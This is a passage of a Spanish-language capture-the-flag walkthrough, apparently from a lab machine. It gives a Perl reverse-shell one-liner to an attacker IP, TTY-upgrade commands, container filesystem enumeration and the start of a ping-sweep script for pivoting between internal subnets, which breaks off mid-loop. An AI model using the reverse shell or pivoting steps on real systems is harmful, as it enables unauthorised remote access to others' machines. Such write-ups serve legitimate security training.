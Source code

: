     ```bash
    perl -e 'use Socket;$i="10.10.14.29";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```

#### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Salir del contenedor {-}

```bash
cd /
ls -la
cd /home
ls -la
cd /node
ls -la
cd /var
ls -la
cd backups
ls -la
cd ..
cd /opt
cd yarn-v1.6.0
ls -la
cat package.json
find \-name *config* 2>/dev/null
```

No vemos nada en concreto para este contenedor. Aqui tendremos que saltar del contenedor

```bash
ip a
```

Vemos que hay una interface **eth0** con un inet address **172.18.0.2** y el interface **eth1** con un inet address **172.19.0.4**.
Como el contenedor tiene **ping** installado, nos creamos un script en bash para saber que otras maquinas/contenedores estan activos.

```bash
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n[!] Saliendo...\n"
        tput cnorm;exit 1
}

#Ctrl+C
trap ctrl_c INT

networks=(172.18.0 172.19.0)

tput civis; for network in ${networks[@]}; do
```